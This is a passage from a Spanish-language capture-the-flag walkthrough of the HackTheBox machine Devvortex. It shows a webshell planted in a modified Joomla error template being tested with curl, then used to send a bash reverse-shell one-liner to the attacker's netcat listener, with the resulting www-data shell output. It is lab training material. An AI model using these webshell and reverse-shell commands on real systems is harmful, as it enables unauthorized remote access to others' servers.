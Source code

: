 <figure><img src="../../.gitbook/assets/imagen (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisaremos desde consola, a través de la herramienta `cURL` de si la webshell creada funciona correctamente. En este caso, haremos una petición a una página inexistente para que nos salte la plantilla de `error.php` e indicaremos el parámetro configurado y el comando a ejecutar. Logramos tener una **webshell** a través de una plantilla modificada de **Joomla**.

```bash
❯ curl -s 'http://dev.devvortex.htb/gzzcoo' --data-urlencode 'gzzcoo=whoami'
www-data
```

El siguiente paso será lograr obtener acceso remoto al sistema. Por lo tanto, nos pondremos en escucha con **nc**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos la Reverse Shell a través de la **webshell** que disponemos.

```bash
❯ curl -s 'http://dev.devvortex.htb/gzzcoo' --data-urlencode 'gzzcoo=/bin/bash -c "bash -i >& /dev/tcp/10.10.16.2/443 0>&1"'
```

Verificamos que logramos acceder al sistema y nos encontramos como usuario `www-data`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.242] 35136
bash: cannot set terminal process group (854): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb$
```
